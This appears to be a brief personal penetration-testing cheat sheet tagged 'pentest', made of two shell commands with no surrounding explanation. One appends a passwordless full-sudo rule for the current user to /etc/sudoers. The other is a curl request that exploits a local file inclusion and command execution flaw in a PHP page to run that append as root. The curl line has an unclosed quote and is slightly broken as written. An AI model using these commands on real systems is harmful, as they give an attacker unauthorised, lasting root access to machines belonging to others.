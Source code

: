 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Add user to /etc/sudoers file
```bash - target
echo '$USER ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
```

#### curl LFI page ran as root
```bash - kali
curl $TARGET:8080/start_page.php?page=cmd.php --data "cmd=echo '$USER ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
```


